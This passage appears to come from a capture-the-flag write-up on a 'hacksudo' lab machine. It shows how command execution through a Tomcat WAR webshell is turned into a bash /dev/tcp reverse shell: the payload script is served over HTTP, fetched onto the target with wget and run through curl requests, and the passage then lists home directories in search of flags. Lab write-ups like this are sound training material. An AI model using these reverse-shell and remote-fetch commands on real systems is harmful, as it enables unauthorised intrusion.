 When I was using the `tomcatWarDeployer` tool, then I noticed that the script is very slow in my virtual machine, and I decided to check how it works to handle it on my own, and it makes a `POST` request to the endpoint created by the `.war` file, and in this case, it is called `/jsp_app`, and the POST body uses a password given by the `tomcatWarDeployer` tool, and the `cmd` parameter, where I can send `bash` commands. When I store the following payload in a file called `rs.sh`:
```shell
$ echo "bash -c 'bash -i >& /dev/tcp/192.168.2.31/1234 0>&1'" > rs.sh
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I open an `HTTP` server with Python3:
```shell
$ python3 -m http.serve 8000
```
And I use the `curl` command to download the `rs.sh`, and run it in memory:
```shell
$ curl 'http://192.168.2.35:8080/jsp_app/' -d \
> 'password=aTmbDOvyUJTH&cmd=wget%20-O-%20192.168.2.31:8000/rs.sh%20|bash'
```
But it does not work, and after sending some commands,then I noticed that the pipe `|` is not being interpreted, and I decided to separate my payload into two steps, when I download the `rs.sh` file to the `/tmp/` directory:
```shell
$ curl 'http://192.168.2.35:8080/jsp_app/' -d 'password=aTmbDOvyUJTH&
> cmd=wget%20-O%20/tmp/rs.sh%20192.168.2.31:8000/rs.sh'
```
And after that, I run the `/tmp/sh.sh`:
```shell
$ curl 'http://192.168.2.35:8080/jsp_app/' -d \
> 'password=aTmbDOvyUJTH&cmd=bash%20/tmp/rs.sh'
```
Then it works:

![evidence](./static/14-reverseshell.png)

When I start to explore the server, and I use the `ls` command:
```shell
$ tomcat@hacksudo:/$ ls -laR /home
```
And I can see two users, `hacksudo` and `vishal`, and I see the user flag in the hacksudo home directory. but I only can read it when I get the `hacksudo` shell. when I see the `vishal` home directory, then I can see the second flag:
